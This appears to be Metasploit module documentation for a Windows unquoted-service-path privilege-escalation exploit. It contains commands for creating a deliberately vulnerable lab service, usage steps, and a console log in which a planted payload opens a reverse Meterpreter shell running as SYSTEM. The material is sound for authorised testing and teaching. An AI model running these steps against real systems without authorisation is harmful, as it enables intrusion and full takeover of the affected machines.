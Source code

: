 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

1.  C:\Program.exe
2.  C:\Program Files\A.exe
3.  C:\Program Files\A Subfolder\B.exe
4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

The service will fail to start as long as the payload remains on disk.  Manual cleanup of the payload
is required.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Sub folder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

If you want to allow the user to restart the service:
```
wmic useraccount get name,sid
sc sdset "Some Vulnerable Service" D:(A;;RPWP;;;place-sid-here)
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

1. Start msfconsole
2. Get a user shell
3. Do: `use exploits/windows/local/unquoted_service_path`
4. Do: `set session #`
5. Do: `run`
6. You should get an elevated shell.

## Options

## Scenarios

### Windows 10 21H2

```
msf exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf exploit(windows/local/unquoted_service_path) > set lhost 192.168.159.128
lhost => 1.1.1.1
msf exploit(windows/local/unquoted_service_path) > set lport 9090
lport => 9090
msf exploit(windows/local/unquoted_service_path) > exploit

[*] Started reverse TCP handler on 192.168.159.128:9090 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[+] Found potentially vulnerable service: Vuln Service 1 - C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     C:\Program Files\A Subfolder\B Subfolder\ is not writable
[+]     C:\Program Files\A Subfolder\ is writable
[*]       Placing C:\Program Files\A Subfolder\B.exe for Vuln Service 1
[*]       Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+]       Successfully wrote payload
[*] [Vuln Service 1] Restarting service
[-] [Vuln Service 1] Restarting service failed: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-]       Unable to restart service. System reboot or an admin restarting the service is required. Payload left on disk!!!
[-]     C:\Program Files\ is not writable
[-]     C:\ is not writable
[+] Found potentially vulnerable service: Vuln Service 2 - C:\Program Files\D Subfolder\E Subfolder\F Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     C:\Program Files\D Subfolder\E Subfolder\ is not writable
[+]     C:\Program Files\D Subfolder\ is writable
[*]       Placing C:\Program Files\D Subfolder\E.exe for Vuln Service 2
[*]       Attempting to write 15872 bytes to C:\Program Files\D Subfolder\E.exe...
[+]       Successfully wrote payload
[*] [Vuln Service 2] Restarting service
[*] Sending stage (175686 bytes) to 192.168.159.87
[+] [Vuln Service 2] Service started
[+] Deleted C:\Program Files\A Subfolder\B.exe
[+] Deleted C:\Program Files\D Subfolder\E.exe
[*] Meterpreter session 12 opened (192.168.159.128:9090 -> 192.168.159.87:57944) at 2023-01-05 09:46:38 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-81CEH16
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > 
```
